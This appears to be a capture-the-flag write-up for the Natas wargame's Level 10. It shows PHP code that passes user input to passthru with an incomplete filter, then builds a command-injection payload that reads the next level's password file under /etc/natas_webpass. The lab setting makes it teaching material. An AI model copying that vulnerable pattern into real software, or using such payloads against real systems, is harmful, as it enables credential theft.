


# Level 10
This level builds on the previous level by intoducing some additional constraints.

## Quest 
We are presented with a webpage containing msg "_For security reasons, we now filter on certain characters_".



From the source code we can see some additional checks have been introduced, Lets comment the code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) { // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];             // If its there, assign it to var $key
}

if($key != "") {                            // If key is not empty
    if(preg_match('/[;|&]/',$key)) {        // and If user input contains ;,|,&
        print "Input contains an illegal character!";  // Print the message
    } else {
        passthru("grep -i $key dictionary.txt");  // Else, run the command with user input
    }
}
?>
```
<br/><br/>

## Solution
From the source code, we can see that application now doesn't accept characters `;`, `|` and `&`. Essentially all characters that can terminate a command.

Now to construct our payload, we do some tests in our local linux terminal.
```shell
# I have a simple text file 'test'
$ cat test
This is a random file
We love random things, not pseudo random ones.

# Another way to view the file using 'grep'
$ grep -i "" test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # There is no space after \
> test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # If we put a space after \  , command terminates
cat: ' ': No such file or directory
```
<span id="green">Takeaway:</span>
    1. We can use `grep` to view the contents of a file
    2. `\` is used in multiline linux commands to split command to next line when command is too long
    3. But if we put a space after `\`, then it terminates the command

So, Our payload becomes    `"" /etc/natas_webpass/natas11 \`
<br/>Note that we don't need to add extra space at the end as its added for us when `grep` command is run.

Now, we put our payload in the form and it reveals the password for next Level



<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)

